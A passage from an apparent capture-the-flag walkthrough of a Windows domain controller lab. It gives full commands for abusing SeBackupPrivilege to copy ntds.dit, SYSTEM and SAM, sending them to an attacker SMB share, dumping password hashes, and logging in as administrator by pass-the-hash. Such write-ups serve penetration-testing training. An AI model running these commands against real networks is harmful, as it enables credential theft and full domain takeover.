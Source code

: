 ```bash
The shadow copy was successfully exposed as E:\.
-> end backup
-> exit
```

Now let’s check if the E drive exists:

```bash
dir E:\
```

![image.png]({{ site.baseurl }}/assets/blackfield/image%205.png)

Now let’s copy ntds.dit back to C drive, with our SeBackupPrivilege:

```bash
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Users\svc_backup\Documents\ntds.dit
```

We also need the SYSTEM registry to decrypt. Let’s also get SAM as well:

```bash
reg save HKLM\SYSTEM system
reg save HKLM\SAM sam
```

Now let’s transfer everything back:

```bash
#on attack 
sudo impacket-smbserver share -smb2support . -user test -password test

#on target
#With Authentication:
net use \\10.10.16.4\share /user:test test
#Now we can just copy as normal
copy C:\Users\svc_backup\Documents\ntds.dit  \\10.10.16.4\share\ntds.dit

copy C:\Users\svc_backup\Documents\system \\10.10.16.4\share\system

copy C:\Users\svc_backup\Documents\sam \\10.10.16.4\share\sam
```

Now let’s read it with secretsdump:

```bash
impacket-secretsdump -ntds ntds.dit -system system -sam sam LOCAL > nt-hashes.txt
```

Now let’s get the administrator hash:

```bash
cat nt-hashes.txt | grep Administrator

Administrator:500:aad3b435b51404eeaad3b435b51404ee:67ef902eae0d740df6257f273de75051:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
```

Looking in the file, we want the domain admin, not local, so the second one is the administrator we want. Now let’s verify credential:

```bash
evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
```

![image.png]({{ site.baseurl }}/assets/blackfield/image%206.png)

We are administrator.